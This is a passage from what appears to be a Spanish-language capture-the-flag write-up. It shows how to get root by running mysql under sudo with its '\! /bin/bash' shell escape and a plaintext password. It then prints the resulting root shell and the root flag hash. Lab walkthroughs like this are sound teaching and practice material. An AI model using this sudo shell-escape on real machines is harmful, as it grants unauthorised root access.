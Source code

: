 ```shell
sudo mysql -e '\! /bin/bash' -pr00tt00rDB
```

Info:

```
root@external:/home/admin# whoami
root
```

Veremos que con estos seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
059ca941ad55fd318d68e675f85dd733
```

